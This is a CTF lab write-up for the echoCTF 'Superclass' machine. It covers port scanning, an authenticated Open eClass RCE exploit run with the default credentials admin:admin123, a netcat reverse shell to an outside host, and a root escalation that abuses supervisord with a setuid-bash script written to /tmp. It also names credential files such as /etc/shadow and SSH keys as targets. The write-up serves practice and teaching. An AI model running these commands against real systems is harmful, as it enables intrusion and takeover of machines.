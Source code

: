 ```yaml
---
description: >-
  Superclass echoCTF Machine
title: Superclass (Advanced)                # Add title here
date: 2025-02-18 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Advanced]                     # Change Templates to Writeup
tags: [Unrestricted File Upload, Open eClass, Supervisor.conf ]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Superclass.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.234    superclass.echocity-f.com
```

### Content

-  Unrestricted File Upload on Open eClass leading to RCE 
-  autostart Program as Root on supervisor.conf

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.234
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.234 ()   Status: Up
Host: 10.0.160.234 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
```
Services and Versions running:
```bash
nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.234
Nmap scan report for 10.0.160.234
Host is up, received user-set (0.16s latency).
Scanned at 2025-02-18 22:53:51 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 a1:cc:6e:b4:e2:3f:be:1c:c5:a8:d7:8e:46:6f:38:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBH0mn1MeXpgoCJ2FPCAmnDseQnQhAABcrPSjOSt2PpI9KMkLWuRepnEbVN7pOFjc971PrlmIhRpvy0M+rzU5Jo=
|   256 31:7c:c2:b9:43:58:3f:c3:3f:c0:e7:b7:48:82:02:32 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHXZdXBvqbqcdpuHNpTkXf9LfhQvllpuR8NqZfp8aBe7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Open eClass
|_http-favicon: Unknown favicon MD5: D5B69ECF92A558D63AE2EC5FAEDDE360
|_http-server-header: Apache/2.4.61 (Debian)
| http-methods: 
|_  Supported Methods: GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Exploitation
There is only HTTP port open which has a web page only:
![](/assets/img/Pasted-image-20250218215751.png)

However, every resource redirects to `http://superclass.echocity-f.com/` which means we need to add it to our `/etc/hosts` file:

![](/assets/img/Pasted-image-20250218215934.png)

```bash
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.234    superclass.echocity-f.com

```
Looking for exploits on this CMS, we identified the following [exploit for Open eClass RCE](https://github.com/RoboGR00t/Exploit-CVE-2024-26503/blob/main/exploit-cve-2024-26503.py)

Now, the important thing here is that the exploit requires authentication, so we tried with the most common pair of credentials, and voila, the following credentials did work `admin:admin123`.

Now to run our exploit all we need is to use the following parameters:
```bash
python3 exploit.py -u admin -p admin123 -e http://superclass.echocity-f.com

  ___  _  _  ____     ____   __  ____   ___      ____   ___   ___   __  ____                                                                                                                                 
 / __)/ )( \(  __)___(___ \ /  \(___ \ / _ \ ___(___ \ / __) / __) /  \( __ \                                                                                                                                
( (__ \ \/ / ) _)(___)/ __/(  0 )/ __/(__  ((___)/ __/(  _ \(___ \(  0 )(__ (                                                                                                                                
 \___) \__/ (____)   (____) \__/(____)  (__/    (____) \___/(____/ \__/(____/

 ============================ Author: RoboGR00t ============================                                                                                                                                                                                       
[eClass]~# whoami
www-data

```
Finally we start a reverse shell and that's it, we are inside:

```bash
[eClass]~# nc -e /bin/bash 10.10.5.122 1234
```

### Privilege Escalation
Now for the privilege escalation I ran linpeas.sh to check interesting entrypoints, first of all there is an interesting process running:
```bash
╔══════════╣ Running processes (cleaned)
╚ Check weird & unexpected proceses run by root: https://book.hacktricks.xyz/linux-hardening/privilege-escalation#processes             
root           1  0.0  0.0   2472   872 pts/0    Ss   04:08   0:00 tini -- /entrypoint.sh supervisord -c /etc/supervisord.conf          
root           7  0.0  0.0   3924  2992 pts/0    S+   04:08   0:00 /bin/bash /entrypoint.sh supervisord -c /etc/supervisord.conf
root          20  0.1  0.3  36956 31156 pts/0    S+   04:08   0:00  _ /usr/bin/python3 /usr/bin/supervisord -c /etc/supervisord.conf
root          21  0.0  0.1  19032 14492 pts/0    S    04:08   0:00      _ /usr/bin/python3 /usr/bin/pidproxy /var/run/apache2/apache2.pid /usr/sbin/apache2ctl -DFOREGROUND

```
Anyway, this is normal on all the echoCTF machines, however is not normal that there is a python3 execution, scrolling down on the linpeas result, there is an interesting finding about this `supervisor.conf` file:
```bash
╔══════════╣ Analyzing Supervisord Files (limit 70)
-rw-r--r-- 1 root root 1178 Dec 27  2022 /etc/supervisor/supervisord.conf                                                               
-rw-rw-r-- 1 root root 1217 Aug 23 08:45 /etc/supervisord.conf

```
It is interesting that the file is readable by any user, so let's dig deeper on this file:
```bash
www-data@superclass:/tmp$ cat /etc/supervisord.conf
[supervisord]
nodaemon=true
pidfile=/run/supervisord.pid
logfile=/var/log/supervisord.log
user=root
logfile_maxbytes=0

[unix_http_server]
file=/run/supervisord.sock       ; (the path to the socket file)
chmod=0777                       ; sockef file mode (default 0700)

[supervisorctl]
serverurl=unix:///run/supervisord.sock

[rpcinterface:supervisor]
supervisor.rpcinterface_factory = supervisor.rpcinterface:make_main_rpcinterface

[program:mariadb]
user = root
command=/usr/bin/pidproxy /run/mysqld/mysqld.pid /usr/bin/mysqld_safe --pid-file=/run/mysqld/mysqld.pid
stdout_logfile = /dev/stdout
stdout_logfile_maxbytes = 0
stderr_logfile = /dev/stderr
stderr_logfile_maxbytes = 0

[program:apache2]
user = root
command=/usr/bin/pidproxy /var/run/apache2/apache2.pid /usr/sbin/apache2ctl -DFOREGROUND
stdout_logfile = /dev/stdout
stdout_logfile_maxbytes = 0
stderr_logfile = /dev/stderr
stderr_logfile_maxbytes = 0

[program:sshd]
user = root
command = /usr/sbin/sshd -o PermitRootLogin=yes -D
stdout_logfile=/dev/fd/1
stdout_logfile_maxbytes=0
redirect_stderr=true

[program:autostart]
user = root
autostart = false
command = /tmp/autostart
stdout_logfile=/dev/fd/1
stdout_logfile_maxbytes=0
redirect_stderr=true
```
To be honest, I used ChatGPT to understand a possible privesc, and the `program:autostart` can be abused if a script called `autostart` can be created in `/tmp` with the following content:

```bash
echo '#!/bin/bash' > /tmp/autostart
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /tmp/autostart
chmod +x /tmp/autostart
```

If an administrator enables it manually (supervisorctl start autostart), it runs as root.
Since /tmp is world-writable, any user can replace the script.

If an admin runs the following command, it executes the supervisord and the `program:autostart` will execute our malicious script: 
```bash
supervisorctl start autostart
```

Then all we need to do is execute `/bin/bash -p` to get a shell as root.

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables (env command)`
`/root`

### Credentials

```bash
admin:admin123
```

### Notes

-  Sometimes the privesc are on usual files that we often see, the trick here is leaving no stone unturned and check everything even if it seems that is not the way to exploit the machine `supervisord.conf`, `/etc/shadow`, `/root/.ssh/id_rsa` and all the files that usually are unreadable by normal users, should be checked, those are hidden on plainsight and are a low hanging fruit.

### References

- I checked the other writeup for this machine and there is a very useful resource that should be readed: [Using Supervisor](https://medium.com/naukri-engineering/using-supervisor-to-manage-processes-in-linux-98ae4894e9c7)
- [Open eClass RCE Exploit Tool](https://github.com/RoboGR00t/Exploit-CVE-2024-26503)

